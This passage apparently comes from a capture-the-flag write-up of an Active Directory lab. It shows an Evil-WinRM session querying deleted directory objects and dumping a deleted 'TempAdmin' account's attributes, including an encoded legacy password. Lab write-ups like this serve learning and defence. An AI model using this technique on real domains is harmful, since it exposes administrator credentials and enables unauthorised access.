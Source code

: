 ```
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine                                                              
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34               
ObjectClass       : container                                                            
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34
                                                                                         
Deleted           : True                                                                 
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User                                                                 
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88                             
ObjectClass       : container                                                            
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88
                                            
Deleted           : True                                                                 
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local                                                                
Name              : TempAdmin               
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059                                         
ObjectClass       : user                                                                             
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059 

```

The last one is really interesting, because it’s the temporary administer account mentioned in the old email I found earlier (which also said it was using the same password as the normal admin account).

I can get all the details for that account:

```
*Evil-WinRM* PS C:\> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
```